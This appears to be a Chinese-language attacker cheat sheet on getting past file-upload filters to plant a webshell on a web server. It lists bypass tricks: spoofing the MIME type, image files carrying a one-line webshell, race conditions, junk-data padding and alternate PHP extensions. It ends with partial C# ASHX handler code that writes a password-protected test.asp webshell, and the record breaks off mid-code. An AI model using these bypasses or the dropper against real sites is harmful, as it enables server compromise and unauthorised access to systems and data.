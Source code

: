 #### MIME 类型绕过

```
上传木马时，提示格式错误。直接抓包修改 Content-Type 为正确的格式尝试绕过 
```

#### 文件内容检测绕过

```
抓包，在正常图片末尾添加一句话木马 
```

#### 多次上传 Win 特性绕过

```
多次上传同一个文件，windows 会自动更新补全 TEST (1).php。
有时会触发条件竞争，导致绕过。 
```

#### 条件竞争绕过

```
通过 BURP 不断发包，导致不断写入 Webshell，再写入速度频率上超过安全软件查杀频率，导致绕过。 
```

#### CONTENT-LENGTH 绕过

```
针对这种类型的验证，我们可以通过上传一些非常短的恶意代码来绕过。上传文件的大小取决于，Web 服务器上的最大长度限制。我们可以使用不同大小的文件来 fuzzing 上传程序，从而计算出它的限制范围。 
```

#### 文件内容检测绕过

```
针对文件内容检测的绕过，一般有两种方式，
1.制作图片马
2.文件幻术头绕过 
```

#### 垃圾数据填充绕过

```
修改 HTTP 请求，再之中加入大量垃圾数据。 
```

### 黑名单后缀绕过

#### 文件扩展名绕过

```
Php 除了可以解析 php 后缀 还可以解析 php2.php3，php4 后缀 
```

#### ashx 上传绕过

```
cer,asa,cdx 等等无法使用时候。
解析后就会生成一个 test.asp 的马，你就可以连接这个 test.asp  密码为:put
<%@ WebHandler Language="C#" Class="Handler" %>
using System;
using System.Web;
using System.IO;
public class Handler : IHttpHandler {

    public void ProcessRequest (HttpContext context) {
        context.Response.ContentType = "text/plain";

        //这里会在目录下生成一个 test.asp 的文件
        StreamWriter file1= File.CreateText(context.Server.MapPath("test.asp"));
        //这里是写入一句话木马   密码是：ptu
```